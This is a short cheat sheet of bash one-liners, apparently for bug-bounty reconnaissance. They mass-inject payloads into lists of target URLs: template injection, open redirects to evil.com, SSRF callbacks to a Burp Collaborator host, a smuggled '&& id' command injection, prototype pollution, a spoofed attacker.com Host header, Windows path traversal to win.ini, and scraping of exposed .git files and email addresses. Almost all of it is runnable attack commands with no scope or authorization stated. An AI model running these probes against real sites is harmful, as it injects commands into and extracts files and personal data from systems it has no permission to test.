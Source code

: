 ### IPv6 Asset Discovery (Many Orgs Forget This)
```bash
subfinder -d target.com | dnsx -silent -aaaa -resp-only | tee ipv6_assets.txt
```

### Template Injection Finder (SSTI)
```bash
cat all_urls.txt | gf ssti | qsreplace '{{7*7}}' | httpx -silent -fr '49' -o ssti_vulns.txt
```

### Open Redirect Detection
```bash
cat all_urls.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'Location: https://evil.com' -o open_redirects.txt
```

### Server-Side Request Forgery (SSRF)
```bash
cat all_urls.txt | gf ssrf | qsreplace 'http://your-burpcollab-url.burpcollaborator.net' | httpx -silent -o ssrf_candidates.txt
```

### Exposed .git Repositories (Code Leakage)
```bash
cat subdomains.txt | httpx -silent -path '/.git/config' -mc 200 -o exposed_git_repos.txt
```

### Command Injection Finder
```bash
cat all_urls.txt | gf cmd-injection | qsreplace '&& id' | httpx -silent -fr 'uid=' -o cmd_injection.txt
```

### Prototype Pollution Detection
```bash
cat all_urls.txt | qsreplace '__proto__[exploit]=polluted' | httpx -silent -fr 'polluted' -o prototype_pollution.txt
```

### Email/PII Leakage in Responses
```bash
cat all_urls.txt | httpx -silent -fr '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}' -o leaked_emails.txt
```

### Host Header Injection
```bash
cat all_urls.txt | httpx -silent -H 'Host: attacker.com' -fr 'attacker.com' -o host_header_injection.txt
```

### Path Traversal (Windows)
```bash
cat all_urls.txt | qsreplace 'C:/Windows/win.ini' | httpx -silent -fr 'for 16-bit app support' -o windows_traversal.txt
```
